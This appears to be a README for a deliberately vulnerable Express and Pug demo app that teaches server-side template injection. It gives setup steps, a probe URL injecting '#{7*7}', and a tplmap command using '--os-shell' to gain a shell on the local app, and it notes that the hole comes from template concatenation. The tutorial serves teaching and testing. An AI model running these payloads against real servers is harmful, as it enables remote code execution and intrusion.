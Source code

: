 # Hands-on Express SSTI

This application is a demonstration prototype just to show how to perform SSTI (Server side templating injection) attack. This application use Express and Pug as templating engine. This tutorial is based on https://appsec.amanvir.io/exploring-template-injection

## Setting-up

* Install nodejs

* Install dependencies

```console
$ npm install
```

* Install [tplmap](https://github.com/epinna/tplmap/blob/master/README.md)

```console
$ git clone https://github.com/epinna/tplmap.git
$ cd tplmap
$ virtualenv --python=/usr/bin/python2.7 venv
$ source ./venv/bin/activate
$ pip install -r requirements.txt
```

* Start application

```console
$ node app.js
```

## SSTI attack

* Open http://localhost:3000/?name=bob

* Open http://localhost:3000/?name=%23%7B7*7%7D to test if your application is expose to SSTI (name=#{7*7})

* Run SSTI attack with [tplmap](https://github.com/epinna/tplmap/blob/master/README.md)

```console
(venv)$ ./tplmap.py --engine pug --os-shell -u http://localhost:3000/?name=bob
```

In this example, the template is built by concatenation instead of using [interpolation](https://pugjs.org/language/interpolation.html) in order to escape data
